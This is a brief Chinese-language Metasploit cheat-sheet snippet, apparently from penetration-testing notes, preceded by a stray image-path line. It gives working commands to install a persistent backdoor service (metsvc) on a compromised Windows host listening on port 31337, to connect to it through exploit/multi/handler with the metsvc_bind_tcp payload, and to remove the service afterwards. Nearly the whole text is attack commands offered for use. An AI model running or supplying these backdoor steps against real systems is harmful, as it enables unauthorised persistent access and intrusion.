 	Meterpreter> run metsvc -A
	在C:Windows\TEMP下随机生成目录三个文件，创建服务metsvc 31337端口
	连接后门
	Msf>use exploit/multi/handler
	Msf>set payload windows/metsvc_bind_tcp
	Msf>set rhost 192.168.1.2
	Msf>set rport 31337
	Msf>run
	删除服务
	Meterpreter > run metsvc –r